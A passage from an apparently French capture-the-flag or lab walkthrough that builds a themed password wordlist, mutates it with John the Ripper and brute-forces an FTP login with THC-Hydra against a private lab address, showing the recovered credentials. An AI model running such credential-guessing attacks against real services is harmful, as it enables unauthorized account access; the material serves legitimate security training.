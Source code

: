 ```plain
r3l04d3d                                                                                                                                                                                                       
Daft                                                                                                                                                                                                           
d4ft                                                                                                                                                                                                           
Punk                                                                                                                                                                                                           
Windows                                                                                                                                                                                                        
3.1                                                                                                                                                                                                            
Matrix reloaded                                                                                                                                                                                                
Daft Punk
Windows 3.1
Microsoft
Neo
n3o
n30
Morpheus
m0rph3us
Trinity
hacker
hacker
haxor
TheXero-01
xero
thexero
robert
bob
```

Puis on génère une seconde wordlist basée sur celle-ci en appliquant des mutations via John The Ripper :  

```bash
/opt/jtr/john --rules --wordlist=dico.txt --stdout > candidates.txt
```

On lance une attaque brute-force à l'aide de *THC-Hydra*. Après avoir testé différents logins (*bobby*, *admin*...) on trouve finalement le bon password pour l'utilisateur *bob* :

```shellsession
$ ./hydra -l bob -P ../candidates.txt -t 1 ftp://192.168.1.11/ 
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-03-25 21:16:08
[DATA] 1 task, 1 server, 835 login tries (l:1/p:835), ~835 tries per task
[DATA] attacking service ftp on port 21
[21][ftp] host: 192.168.1.11   login: bob   password: Matrix
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-03-25 21:16:08
```
